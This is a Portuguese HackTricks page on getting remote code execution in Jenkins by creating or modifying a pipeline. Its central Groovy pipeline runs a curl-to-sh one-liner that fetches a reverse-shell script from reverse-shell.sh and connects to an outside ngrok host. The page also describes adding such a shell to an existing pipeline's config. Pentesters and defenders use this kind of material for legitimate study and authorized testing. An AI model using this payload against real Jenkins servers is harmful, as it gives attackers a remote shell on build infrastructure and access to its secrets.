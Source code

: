 # Jenkins RCE Criando/Modificando Pipeline

<details>

<summary><strong>Apoie o HackTricks e obtenha benefícios!</strong></summary>

* Se você deseja ver sua **empresa anunciada no HackTricks** ou se deseja acessar a **última versão do PEASS ou baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**oficial PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Descubra [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).

</details>

## Criando um novo Pipeline

Em "Novo Item" (acessível em `/view/all/newJob`) selecione **Pipeline:**

![](<../../.gitbook/assets/image (10) (1).png>)

Na seção **Pipeline** escreva o **reverse shell**:

![](<../../.gitbook/assets/image (28).png>)

```groovy
pipeline {
    agent any

    stages {
        stage('Hello') {
            steps {
                sh '''
                    curl https://reverse-shell.sh/0.tcp.ngrok.io:16287 | sh
                '''
            }
        }
    }
}
```

Finalmente, clique em **Salvar** e **Construir agora** e o pipeline será executado:

![](<../../.gitbook/assets/image (17) (1) (1).png>)

## Modificando um Pipeline

Se você pode acessar o arquivo de configuração de algum pipeline configurado, você pode simplesmente **modificá-lo adicionando seu reverse shell** e depois executá-lo ou esperar até que ele seja executado.